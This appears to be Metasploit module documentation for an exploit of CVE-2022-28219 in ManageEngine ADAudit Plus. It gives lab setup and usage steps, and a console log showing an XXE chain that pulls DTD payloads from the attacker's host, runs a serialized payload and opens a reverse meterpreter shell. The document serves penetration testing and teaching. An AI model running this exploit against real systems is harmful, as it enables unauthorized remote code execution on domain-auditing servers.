 ## Vulnerable Application

The vulnerable application is ManageEngine ADAudit Plus prior to build 7060. I built and tested this on build 7055, which, at least at the time of this writing, you can download [here](https://archives2.manageengine.com/active-directory-audit/). It's a .exe file that you can install with all the defaults.

You also need to configure ADAudit to actually audit a domain. That means setting up a domain (I created a domain controller in the lab), and configuring ADAudit to scan that domain. That domain name must be set to the `DOMAIN` when using this exploit.

The last thing is, three connect-back ports must be open from the target back to Metasploit (in addition to whatever payload ports). By default, we use ports 8080 and 8888 for HTTP, and 2121 for FTP.

## Verification Steps

1. Install the application
2. Do: `set RHOSTS <IP>`
3. Do: `set DOMAIN <DOMAIN_NAME>`
4. Do: `exploit`
5. You should get a meterpreter session

## Scenarios

```
msf > use exploit/windows/http/manageengine_adaudit_plus_cve_2022_28219
[*] No payload configured, defaulting to cmd/windows/powershell/meterpreter/reverse_tcp
msf exploit(windows/http/manageengine_adaudit_plus_cve_2022_28219) > set RHOSTS 10.0.0.148
RHOSTS => 10.0.0.148
msf exploit(windows/http/manageengine_adaudit_plus_cve_2022_28219) > set DOMAIN ad.example.local
DOMAIN => ad.example.local
msf exploit(windows/http/manageengine_adaudit_plus_cve_2022_28219) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. The vulnerable endpoint responds with HTTP/200.
[*] Attempting to exploit XXE to get a list of users
[*] Using URL: http://10.0.0.146:8080/KEmvnPFxS.dtd
[*] User accounts discovered: Ron
[*] Enumerating old payloads cached on the server (to skip later)
[*] Using URL: http://10.0.0.146:8080/NvkXTJXRyhV.dtd
[*] Attempting to exploit XXE to store our serialized payload on the server
[*] Trying to find our payload in all users' temp folders
[*] Using URL: http://10.0.0.146:8080/ppVHiihu.dtd
[*] Executing payload: /users/Ron/appdata/local/temp/jar_cache4413164256015023251.tmp...
[*] Sending stage (175686 bytes) to 10.0.0.148
[*] Meterpreter session 1 opened (10.0.0.146:4444 -> 10.0.0.148:52347) at 2022-07-07 15:19:59 -0700

meterpreter >
```

## Options

### TARGETURI_DESERIALIZATION / TARGETURI_XXE

The target URLs - probably won't ever need to be changed

### DOMAIN

A domain that the target monitors. We cannot validate this, but if the exploit should work and doesn't, this might be the issue.

### SRVPORT / SRVPORT_FTP / SRVPORT_HTTP2

The connect-back ports.

* `SRVPORT` is used to host XXE payloads
* `SRVPORT_HTTP2` is used for an XXE payload that is held open, creating a temporary file on the server
* `SRVPORT_FTP` is used for a fake off-spec FTP server that receives a directory listing also via XXE

# PATH_TRAVERSAL_DEPTH

The number of `../` to add to the request

# FtpCallbackTimeout / HttpUploadTimeout

How long to wait for FTP or HTTP responses before giving up
